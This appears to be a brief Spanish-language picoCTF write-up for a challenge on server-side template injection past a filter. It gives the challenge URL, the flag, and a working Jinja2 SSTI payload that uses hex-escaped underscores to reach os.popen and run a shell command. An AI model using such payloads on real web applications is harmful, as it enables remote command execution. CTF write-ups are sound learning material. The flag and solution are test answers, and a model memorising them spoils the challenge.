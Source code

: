 
Descripcion:
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.
Solucion(s):
http://shape-facility.picoctf.net:64401/
picoCTF{sst1_f1lt3r_byp4ss_4de30aa0}
Notas:
se introduce el siguiente comando:
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}  

Referencias:
https://www.youtube.com/watch?v=bPD6cg3Gvng